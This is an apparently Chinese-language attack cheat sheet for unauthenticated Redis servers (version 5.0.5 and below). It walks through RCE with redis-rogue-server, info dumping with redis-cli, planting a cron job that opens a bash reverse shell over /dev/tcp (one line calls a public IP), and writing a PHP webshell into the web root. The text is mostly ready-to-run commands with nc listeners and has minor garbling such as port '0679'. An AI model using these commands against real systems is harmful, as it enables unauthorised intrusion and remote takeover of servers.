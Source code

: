 # redis-rogue-server rce

当 `redis` 可以远程访问并且Redis <= 5.0.5

1. 访问:0679端口。 查看是否可以远程访问

2. `redis-rogue-server.py -h`

 find / -name *redis* 找找绝对路径

3. 使用

```
python3 redis-rogue-server.py --rhost 127.0.0.1 --lhost 127.0.0.1
                                远程主机            本地主机


# 开启监听
# nc相应端口
 nc -lvvp 9999

```
Redis未授权访问验证、获取敏感信息

　　Nmap扫描后发现主机的6379端口对外开放，就可以用本地Redis远程连接服务器（redis在开放往外网的情况下，默认配置下是空口令，端口为6379）连接后可以获取Redis敏感数据。

这里我使用另一台安装了redis的centos远程连接测试

```bash
./redis-cli   -h   192.168.242.134.

redis 192.168.242.134:6379> info # 查看敏感信息

```
bash -i >& /dev/tcp/140.82.40.144/9631 0>&1\n

### 利用crontab反弹shell

>>直接向靶机的Crontab写入任务计划，反弹shell回来
```
redis 192.168.242.134:6379> set x "\n* * * * * bash -i >& /dev/tcp/192.168.242.131/888 0>&1\n"
redis 192.168.242.134:6379> config set dir /var/spool/cron/
redis 192.168.242.134:6379> config set dbfilename root
redis 192.168.242.134:6379> save
```

set x "\n* * * * * bash -i >& /dev/tcp/192.168.12.47/2345 0>&1\n"

然后在攻击机（192.168.242.131）上启动 nc 监听 888端口，等待反弹shell。这过程需要一些时间。
```
nc -lvnp 888
```

### 写入webshell

当自己的redis权限不高时，可以向web里写入webshell，但需要对方有web服务且有写入权限。假设靶机里面存在WEB服务并且目录在 /var/www/html
```
redis 192.168.242.134:6379>config set dir /var/www/html

redis 192.168.242.134:6379>config set x "<?php phpinfo();?>"

redis 192.168.242.134:6379>config set dbfilename webshell.php

redis 192.168.242.134:6379>save
```
